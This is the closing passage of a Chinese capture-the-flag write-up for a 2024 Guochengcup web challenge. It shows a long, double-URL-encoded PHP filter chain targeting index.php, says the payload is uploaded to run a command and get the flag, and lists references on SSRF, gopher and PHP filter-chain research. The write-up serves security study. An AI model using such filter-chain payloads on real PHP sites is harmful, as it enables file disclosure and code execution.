%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.U%2554F8|%2563on%2576ert.%2569conv.SJ%2549S.GBK|%2563on%2576ert.%2569conv.L10.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2562a%2573e64-%2564ecode/resource=index.php
```

最后上传payload并执行命令，可以拿到flag：




## 参考
[\[1\] 国城杯CTF_官方WP](<../../国城杯CTF WP.pdf>)\
[\[2\] curl_setopt](https://durak.org/sean/pubs/software/php-7.0.0/function.curl-setopt.html)\
[\[3\] 2024“国城杯”网络安全挑战大赛题解](https://blog.csdn.net/uuzeray/article/details/144333686)\
[\[4\] SSRF漏洞理解进阶&SSRF+gopher打内网](https://blog.csdn.net/qq_61778128/article/details/127505896)\
[\[5\] PHP filter chains: file read from error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)
